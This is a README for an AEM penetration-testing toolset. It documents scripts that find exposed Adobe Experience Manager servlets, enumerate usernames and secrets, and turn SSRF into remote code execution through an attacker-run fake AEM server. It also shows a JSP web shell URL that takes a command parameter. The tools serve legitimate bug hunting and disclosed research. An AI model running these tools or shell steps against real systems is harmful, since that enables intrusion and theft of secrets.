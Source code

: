 # AEM hacker toolset

Tools to identify vulnerable Adobe Experience Manager (AEM) webapps. AEM is an enterprise-grade CMS.

I built these tools to automate bughunting and pentesting of AEM webapps. I included checks for previously known vulnerabilities and misconfigurations, as well as for new ones, discovered by me in 2018. **All discovered vulnerabilities were responsibly reported to Adobe PSIRT**.
 
You can find more details about vulnerabilities and techniques in presentations, I've prepared for <a href="https://speakerdeck.com/0ang3el/hunting-for-security-bugs-in-aem-webapps">Hacktivity conference</a> and LevelUp 0x03.

AEM webapps are widespread and rarely configured securely or kept up to date. Bughunter, you have good chances to find security bugs, enjoy the tools!


Mikhail Egorov (<a href="https://twitter.com/0ang3el">@0ang3el</a>)

## Scripts

* `aem_hacker.py` - main script to scan AEM webapp for vulnerabilities.
* `aem_discoverer.py` - script to discover AEM webapps from list of URLs.
* `aem_enum.py` - script allows to automate enumeration of usernames and secrets through AEM's DefaultGetServlet.
* `aem_ssrf2rce.py`, `aem_server.py`, `response.bin` - scripts to get RCE from SSRF.
* `aem-rce-sling-script.sh` - script to get RCE by uploading JSP shell to /apps JCR node.

## aem_hacker.py
**Important:** You need a VPS to detect SSRF vulnerabilities!

Tool tries to bypass AEM dispatcher. 

Following checks are currently implemented:
* `Exposed DefaultGetServlet` - checks if JCR nodes, that might contain sensitive information and secrets, are exposed via DefaultGetServlet.
* `Exposed QueryBulderJsonServlet and QueryBuilderFeedServlet` - if those servlets are exposed it might be possible to access various sensitive information and secrets. 
* `Exposed GQLServlet` - GQLServlet is similar to QueryBuilderFeedServlet.
* `Exposed POSTServlet` - POSTServlet allows to create/modify/delete content in JCR. Depending on your access level, it's possible to get stored XSS or RCE. 
* `Exposed LoginStatusServlet` - LoginStatusServlet allows to bruteforce credentials.
* `Users with default password` - checks for admin:admin, author:author, etc.
* `Exposed Felix Console` - exposed Felix Console might lead to RCE by uploading backdoor OSGI bundle.
* `Enabled WCMDebugFilter` - vulnerable to CVE-2016-7882 WCMDebugFilter might lead to reflected XSS.
* `Exposed WCMSuggestionsServlet` - exposed WCMSuggestionsServlet might lead to reflected XSS.
* `Exposed AuditlogServlet` - checks if audit logs are exposed without authorization.
* `Exposed CRXDE logs` - checks if logs are exposed without authorization via CRXDE.
* `Exposed CRXDE and CRX` - checks for exposure of CRXDE and CRX.
* `SSRF SalesforceSecretServlet` - checks for SSRF via SalesforceSecretServlet (CVE-2018-5006). SSRF might allow to ex-filtrate secrets or perform XSS.
* `SSRF ReportingServicesServlet` - checks for SSRF via ReportingServicesServlet (CVE-2018-12809). SSRF might allow to ex-filtrate secrets or perform XSS.
* `SSRF SitecatalystServlet` - checks for SSRF via SitecatalystServlet. SSRF might allow to get RCE with the help of aem_ssrf2rce.py, when specific AEM version and appserver is used.
* `SSRF AutoprovisioningServlet` - checks for SSRF via AutoprovisioningServlet. SSRF might allow to get RCE with the help of aem_ssrf2rce.py, when specific AEM version and appserver is used.
* `SSRF OpensocialProxy` - checks for SSRF via OpensocialProxy (ShindigProxy). SSRF might allow to ex-filtrate secrets or perform XSS.
* `SWF XSSes` - checks for XSSes via SWF.
* `Deser ExternalJobServlet` - checks for vulnerable ExternalJobServlet.
* `Exposed Webdav` - checks for access to JCR via WebDav protocol. Exposed WebDav might lead to XXE (CVE-2015-1833) or stored XSS.
* `Exposed Groovy Console` - exposed Groovy console leads to RCE. 
* `Exposed ACS AEM Tools` - exposed ACS AEM Tools leads to RCE.

#### Help
```
python3 aem_hacker.py -h
usage: aem_hacker.py [-h] [-u URL] [--proxy PROXY] [--debug] [--host HOST]
                     [--port PORT] [--workers WORKERS]

AEM hacker by @0ang3el, see the slides -
https://speakerdeck.com/0ang3el/hunting-for-security-bugs-in-aem-webapps

optional arguments:
  -h, --help         show this help message and exit
  -u URL, --url URL  url to scan
  --proxy PROXY      http and https proxy
  --debug            debug output
  --host HOST        hostname or IP to use for back connections during SSRF
                     detection
  --port PORT        opens port for SSRF detection
  --workers WORKERS  number of parallel workers
```

#### Usage
```
python3 aem_hacker.py -u https://aem.webapp --host your_vps_hostname_ip
```

## aem_discoverer.py
Script allows to scan urls and find AEM webapps among them.

Tool tries to bypass AEM dispatcher.

#### Help
```
python3 aem_discoverer.py -h
usage: aem_discoverer.py [-h] [--file FILE] [--proxy PROXY] [--debug]
                         [--workers WORKERS]

AEM discoverer by @0ang3el, see the slides -
https://speakerdeck.com/0ang3el/hunting-for-security-bugs-in-aem-webapps

optional arguments:
  -h, --help         show this help message and exit
  --file FILE        file with urls
  --proxy PROXY      http and https proxy
  --debug            debug output
  --workers WORKERS  number of parallel workers
```

#### Usage
```
python3 aem_discoverer.py --file urls.txt --workers 150
```

## aem_enum.py
Script tries to grab usernames and secrets from JCR using AEM's DefaultGetServlet. Usernames are stored in properties of a node that ends with `By` (`jcr:createdBy`, `jcr:lastModifiedBy`, `cq:LastModifiedBy`, etc.).

Tool tries to bypass AEM dispatcher.

#### Help

```
python3 aem_enum.py -h
usage: aem_enum.py [-h] [--url URL] [--base BASE] [--grabdepth GRABDEPTH]
                   [--maxdepth MAXDEPTH] [--workers WORKERS] [--out OUT]
                   [--proxy PROXY] [--debug]

AEM exploration tool by @0ang3el (grabs users and secrets), see the slides -
https://speakerdeck.com/0ang3el/hunting-for-security-bugs-in-aem-webapps

optional arguments:
  -h, --help            show this help message and exit
  --url URL             AEM webapp URL, required parameter
  --base BASE           set base node (/etc or /apps or /home or /var), if not
                        set, base node is selected automatically
  --grabdepth GRABDEPTH
                        JCR subtree depth on each iteration, 2 should be a
                        safe value for all nodes
  --maxdepth MAXDEPTH   maximum depth for JCR search, increase it to find more
  --workers WORKERS     number of parallel workers
  --out OUT             CSV file with results, delimiter symbol is |
  --proxy PROXY         http and https proxy
  --debug               debug output
```

#### Usage

```
python3 aem_enum.py --url https://aem.webapp --out results.csv
```


## aem_ssrf2rce.py, aem_server.py, response.bin
Helps to exploit SSRF in `SitecatalystServlet` and `AutoprovisioningServlet` as RCE. It should work on AEM before AEM-6.2-SP1-CFP7 running on Jetty (default installation).

#### Help

```
python3 aem_ssrf2rce.py -h
usage: aem_ssrf2rce.py [-h] [--url URL] [--fakeaem FAKEAEM] [--proxy PROXY]

optional arguments:
  -h, --help         show this help message and exit
  --url URL          URL for SitecatalystServlet or AutoprovisioningServlet,
                     including path, without query part
  --fakeaem FAKEAEM  hostname/ip of fake AEM server
  --proxy PROXY      http and https proxy
```

#### Usage
Place `aem_server.py` and `response.bin` on your VPS. Run `aem_server.py` script.

```
python3 aem_server.py
starting fake AEM server...
running server...
```

Run `aem_ssrf2rce.py` script.

```
python3 aem_ssrf2rce.py --url https://aem.webapp/libs/cq/analytics/components/sitecatalystpage/segments.json.servlet --fakeaem your_vps_hostname_ip
```

If RCE is possible, you should see incoming connection to your fake AEM server. After replication, you can access your shell from `https://aem.webapp/rcenode.html?Vgu9BKV9zdvJNByNh9NB=ls`.


## aem-rce-sling-script.sh
Script is handy when Felix Console is not available, but you have permissions to create new nodes under `/apps` JCR node.

#### Usage

```
./aem-rce-sling-script.sh https://aem.webapp username password
```